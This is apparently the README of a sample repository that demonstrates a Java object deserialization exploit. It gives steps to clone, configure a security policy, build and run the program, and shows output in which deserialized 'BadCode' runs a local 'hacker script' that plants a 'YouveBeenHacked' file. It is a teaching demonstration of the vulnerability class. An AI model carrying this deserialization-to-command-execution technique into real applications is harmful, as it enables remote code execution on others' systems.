 ## Example 1 - Instructions Object Serialization Exploit

1. Clone the *remote-code-execution-sample*

 ```
 git clone https://github.com/shawnmckinney/remote-code-execution-sample.git
 ```

2. Edit *my-java.policy* file, point to project source folder:

 ```
 vi src/main/resources/my-java.policy
 ...
 grant codeBase "file:${user.home}/Development/remote-code-execution-sample/-" {
 ```

 For example, if you cloned into */home/myuser/Development*, it would look like this:

 ```
 grant codeBase "file:${user.home}/Development/remote-code-execution-sample/-" {
 ```

 Of course this all depends on the user's home dir locale, under which the java program runs. If you're not sure, use an absolute path:
 ```
 grant codeBase "file:/home/myuser/Development/remote-code-execution-sample/-" {
 ```

3. Build and run the test program.  Make sure the *-Dremote-code-execution-sh* points to the correct folder on your machine:

 ```
 mvn clean install
 java -cp target/remoteCodeExecutionSample-1.0.0.jar
      -Djava.security.manager
      -Djava.security.policy=src/main/resources/my-java.policy
      -Dremote-code-execution-sh=/home/myuser/Development/remote-code-execution-sample/src/main/resources/hacker-script.sh
      com.example.App
 ```

4. Examine the program output.

 ```
 Begin serial exploit test....
 Input: duke moscone center
 Serialized data is saved in myObject.ser
 BadCode will now run hacker script
 user.home=/home/myuser
 execute hacker command=/home/myuser/Development/remote-code-execution-sample/src/main/resources/hacker-script.sh
 system command has been run....
 Result: foo fighters!
 ```

5. Examine the files in package:
 ```
 myuser@ubuntu:~/Development/remote-code-execution-sample$ ls
 total 32
 LICENSE
 myObject.ser                <--- this file is new but supposed to be there
 pom.xml
 README.md
 src
 target
 YouveBeenHacked             <--- this file is new but should not be here.
 ```
